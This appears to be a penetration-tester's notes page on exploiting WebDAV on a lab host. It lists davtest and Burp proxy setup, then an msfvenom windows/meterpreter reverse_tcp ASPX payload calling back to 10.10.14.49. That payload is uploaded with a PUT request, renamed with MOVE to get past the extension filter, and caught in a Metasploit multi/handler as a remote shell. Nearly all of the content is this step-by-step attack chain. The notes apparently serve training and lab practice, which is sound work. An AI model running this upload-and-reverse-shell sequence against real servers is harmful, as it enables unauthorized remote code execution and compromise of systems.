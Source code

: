 # Webdav Testing

## Davtest

```
$davtest -url http://url-of-the-host
```

## Davtest through proxy

```
Open Burp
Setup new proxy listener
Set local listener port *(80) 
Set remote host (10.10.10.15)
Set remote port (80)
```

## Setting up proxy 

![Davtest-01](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-01.png)

## Confirming Webdav Manipulation

![Davtest-02](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-02.png)

## Davtest

![Davtest-03](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-03.png)

## Test upload using post

```
1) Send one of the PUT request to the repeater tab
2) Modify the URL to /test.html or whatever you like
3) In the body add some text and send the request (shold get 201)
```

![Davtest-04](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-04.png)

![Davtest-05](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-05.png)

## Create an Msfvenom Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.49 LPORT=443 -f aspx
```

## Upload Msfvenom Shell using PUT

```
1) Using the PUT request in repeater tab, modify the destination to /shell.html
2) In the body, take contents of the .ASPX Msfvenom shell and paste
3) Send the request (should get 201)
```

![Davtest-06](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-06.png)

## Setup Multihandler in Msfconsole to catch our Shell

```
1) Msfconsole
2) Use exploit/multi/handler
```

![Davtest-07](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-07.png)

## MOVING the .html to .aspx to complete the Reverse Shell

```
1) Back in the repeater tab Manipulate the HTTP Method from PUT to MOVE
1a) PUT /shell.html
2) Add a new line underneath PUT with:
2a) Destination: /shell.aspx
```

![Davtest-08](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-08.png)

## Browse to http://10.10.10.15/shell.aspx


![Davtest-09](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-09.png)